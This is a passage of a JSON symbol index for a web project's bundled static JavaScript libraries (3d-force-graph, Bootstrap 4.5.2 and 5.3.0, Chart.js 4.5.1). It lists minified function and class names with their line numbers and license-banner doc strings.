https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "y"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "uu"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "function", "line": 2, "name": "n"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "n"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "e"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "ld"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "pd"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "e"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "y"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "e"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "n"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "n"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "I"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "Md"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "cf"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "e"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "Ef"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "e"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "function", "line": 5, "name": "r"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "oe"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "ve"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "ye"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Oe"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Ne"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "ze"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Be"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "He"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Ve"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Ge"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "je"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "We"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Xe"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Ke"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "fn"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Mn"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Sn"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "In"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "On"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Zn"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "si"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "di"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "mi"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "gi"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "yi"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "xi"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "bi"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Mi"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Pi"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Yi"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Zi"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "er"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "nr"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "or"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "lr"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "cr"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "hr"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "fr"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "_r"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "xr"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Ir"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Wr"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "ra"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "io"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "ro"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "ao"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "co"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Lo"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Do"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Wo"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Xo"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Jo"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "extends"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "es"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "ns"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "is"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "ls"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "_s"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "vs"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "As"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Cs"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "extends"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "extends"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "extends"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "extends"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "extends"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "extends"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "extends"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Ps"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Ls"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Ds"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Is"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Us"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Fs"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "ks"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "zs"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Gs"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "js"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Ws"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Ys"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Js"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "ml"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "as"}, {"doc": "Version 1.73.4 3d-force-graph - https://github.com/vasturiano/3d-force-graph", "kind": "class", "line": 2, "name": "Vh"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "extends"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "extends"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "as"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "Gd"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "bp"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "Fp"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "Xp"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "extends"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "Kp"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "Zp"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "Jp"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "Qp"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "tf"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "extends"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "extends"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "extends"}, {"doc": "<http://www.w3.org/TR/2008/REC-WCAG20-20081211/#contrast-ratiodef (WCAG Version 2) Analyze the 2 colors and returns the color contrast defined by (WCAG Version 2)", "kind": "class", "line": 5, "name": "extends"}]}, {"doc": "!", "id": "static/js/bootstrap-4.5.2.min.js", "kind": "module", "label": "bootstrap-4.5.2.min.js", "language": "js", "sha256": "afddb34141ba4f6d", "symbol_count": 7, "symbols": [{"doc": "! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "r"}, {"doc": "! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "i"}, {"doc": "! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "n"}, {"doc": "! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "s"}, {"doc": "! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "d"}, {"doc": "! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "h"}, {"doc": "! Bootstrap v4.5.2 (https://getbootstrap.com/) Copyright 2011-2020 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "i"}]}, {"doc": "!", "id": "static/js/bootstrap-5.3.0.bundle.min.js", "kind": "module", "label": "bootstrap-5.3.0.bundle.min.js", "language": "js", "sha256": "70b71da2a43c1591", "symbol_count": 28, "symbols": [{"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "n"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "i"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "o"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "a"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "r"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "n"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "i"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "n"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "h"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "function", "line": 6, "name": "M"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "W"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "q"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "K"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "Y"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "rt"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "ft"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "ci"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "pi"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "vi"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "Ti"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "Ni"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "zi"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "Ui"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "ln"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "dn"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "_n"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "xn"}, {"doc": "! Bootstrap v5.3.0 (https://getbootstrap.com/) Copyright 2011-2023 The Bootstrap Authors (https://github.com/twbs/bootstrap/graphs/contributors) Licensed under MIT (https://github.com/twbs/bootstrap/blob/main/LICENSE)", "kind": "class", "line": 6, "name": "Nn"}]}, {"doc": "!", "id": "static/js/chart.min.js", "kind": "module", "label": "chart.min.js", "language": "js", "sha256": "4f6da2f97d4df0ea", "symbol_count": 88, "symbols": [{"doc": "! Chart.js v4.5.1 https://www.chartjs.org (c) 2025 Chart.js Contributors Released under the MIT License", "kind": "function", "line": 7, "name": "i"}, {"doc": "! Chart.js v4.5.1 https://www.chartjs.org (c) 2025 Chart.js Contributors Released under the MIT License", "kind": "function", "line": 7, "name": "h"}, {"doc": "! Chart.js v4.5.1 https://www.chartjs.org (c) 2025 Chart.js Contributors Released under the MIT License", "kind": "function", "line": 7, "name": "r"}, {"doc": "! Chart.js v4.5.1 https://www.chartjs.org (c) 2025 Chart.js Contributors Released under the MIT License", "kind": "function", "line": 7, "name": "it"}, {"kind": "function", "line": 13, "name": "yt"}, {"kind": "function", "line": 13, "name": "e"}, {"kind": "function", "line": 13, "name": "s"}, {"kind": "function", "line": 13, "name": "ye"}, {"kind": "function", "line": 13, "name": "o"}, {"kind": "function", "line": 13, "name": "m"}, {"kind": "function", "line": 13, "name": "s"}, {"kind": "function", "line": 13, "name": "Ue"}, {"kind": "function", "line": 13, "name": "Ge"}, {"kind": "function", "line": 13, "name": "i"}, {"kind": "function", "line": 13, "name": "y"}, {"kind": "function", "line": 13, "name": "a"}, {"kind": "function", "line": 13, "name": "Xs"}, {"kind": "function", "line": 13, "name": "e"}, {"kind": "function", "line": 13, "name": "a"}, {"kind": "function", "line": 13, "name": 